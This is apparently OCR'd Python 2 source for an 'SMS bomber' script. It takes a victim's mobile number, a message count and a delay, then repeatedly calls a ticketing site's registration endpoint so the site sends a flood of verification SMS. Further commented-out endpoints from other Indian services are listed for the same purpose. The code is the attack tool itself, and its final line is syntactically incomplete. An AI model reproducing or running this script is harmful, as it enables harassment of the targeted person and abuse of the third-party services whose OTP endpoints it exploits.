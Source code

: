#python2
#from urllib.request import Request,urlopen
import urllib2,cookielib
#from urllib.parse import urlencode
import platform
import os
import time

try:
    raw_input
except NameError:
    raw_input = input

def banner():
    if platform.system().lower()=="windows":
        os.system("cls")
    else:
        os.system("clear")
    print("""
  ███╗   ██╗██╗███████╗██╗  ██╗ █████╗ ██████╗     ██████╗  █████╗      ██╗
████╗  ██║██║██╔════╝██║  ██║██╔══██╗██╔══██╗    ██╔══██╗██╔══██╗     ██║
██╔██╗ ██║██║███████╗███████║███████║██║  ██║    ██████╔╝███████║     ██║
██║╚██╗██║██║╚════██║██╔══██║██╔══██║██║  ██║    ██╔══██╗██╔══██║██   ██║
██║ ╚████║██║███████║██║  ██║██║  ██║██████╔╝    ██║  ██║██║  ██║╚█████╔╝
╚═╝  ╚═══╝╚═╝╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═════╝     ╚═╝  ╚═╝╚═╝  ╚═╝ ╚════╝ 
                                                                                                                                                                                                    
                                   By : SAHIL NISHAD                                                                                                 
    Note : I won't be responsible for any damage caused by this script, Use at your own risk
""")

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=

#http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=
def send(num, counter, slep):
    #url = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile=","https://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile="]
    url="https://securedapi.confirmtkt.com/api/platform/register?mobileNumber="
    #data={"phone":num}
    hdr = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3','Accept-Encoding': 'none','Accept-Language': 'en-US,en;q=0.8','Connection': 'keep-alive'}
    result_url=url+num
    req = urllib2.Request(result_url, headers=hdr)
    for x in range(counter):
        banner()
        #print("Target Number          : 01531999473", num)
        #print("Number of Message Sent : ", x+1)
        page = urllib2.urlopen(req)
        #resp1=Request(result_url)
        #urlopen(resp1)
        time.sleep(slep)
try:
    banner()
    number = raw_input("Enter mobileNumber: ")
    count = raw_input("Enter number of Message: ")
    throttle = raw_input("Enter time of sleep: ")
    send(number,int(count), int(throttle))
except Exception as e:
    print("Something is wrong please Re-run this script."
